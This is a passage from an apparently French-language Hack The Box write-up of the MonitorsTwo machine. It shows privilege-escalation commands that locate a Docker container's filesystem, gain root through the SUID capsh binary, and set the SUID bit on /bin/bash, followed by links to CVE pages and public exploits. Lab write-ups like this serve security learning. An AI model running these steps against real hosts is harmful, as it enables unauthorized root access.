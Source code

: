 Nous pouvons vérifier chacun de ces 2 conteneurs séquentiellement pour voir lequel contient le fichier test :

```bash
┌──(marcus㉿monitorstwo)-[~]
└─$ ls -l /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/tmp/test
ls: cannot access '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/tmp/test': No such file or directory
┌──(marcus㉿monitorstwo)-[~]
└─$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test
-rw-r--r-- 1 www-data www-data 0 Jan 26 08:00 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test
```

Le conteneur Cacti est donc: ``c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1``. Maintenant, nous devons attribuer des ``permissions SUID`` à ``/bin/bash``, afin que ``marcus`` puisse l'exécuter depuis l'extérieur et obtenir un ``shell root``. Pour ce faire, nous devons d'abord élever nos privilèges à l'intérieur du conteneur.

Celà se fera comme dans la première méthodologie en recherchant les fichiers avec un bit SUID:

```bash
www-data@50bca5e748b0:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

En suivant les instruction d'exploitation du binaire `/sbin/capsh` comme indiqué sur [Gtfobins][4] nous obtenons notre accès root:

```bash

#root
www-data@50bca5e748b0:/tmp$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

- Étant ``root`` nous pouvons donc assigner le bit `SUID` au binaire /bin/bash:

```bash
# assignation de permission SUID

root@50bca5e748b0:/tmp# chmod u+s /bin/bash
# vérification
root@50bca5e748b0:/tmp# ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png